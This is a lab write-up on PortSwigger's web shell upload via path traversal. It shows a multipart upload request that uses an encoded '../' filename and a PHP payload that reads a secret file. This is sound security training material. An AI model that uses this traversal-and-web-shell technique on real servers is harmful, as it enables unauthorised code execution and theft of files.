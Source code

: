 
# Web shell upload via path traversal

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


---------------------------------------------

References: 

- https://portswigger.net/web-security/file-upload

 

![img](images/Web%20shell%20upload%20via%20path%20traversal/1.png)

---------------------------------------------

It is possible to upload a PHP file:



![img](images/Web%20shell%20upload%20via%20path%20traversal/2.png)


But it does not execute:



![img](images/Web%20shell%20upload%20via%20path%20traversal/3.png)


To execute the PHP file we will upload it in a different directory using path traversal. We need to encode the payload or it will not work (filename="%2e%2e%2fb.php"):

```
POST /my-account/avatar HTTP/2
...
-----------------------------40637643122628174081089911774
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fb.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------40637643122628174081089911774
...
```



![img](images/Web%20shell%20upload%20via%20path%20traversal/4.png)


The files is uploaded to the folder “/files” and not “/files/avatars”:



![img](images/Web%20shell%20upload%20via%20path%20traversal/5.png)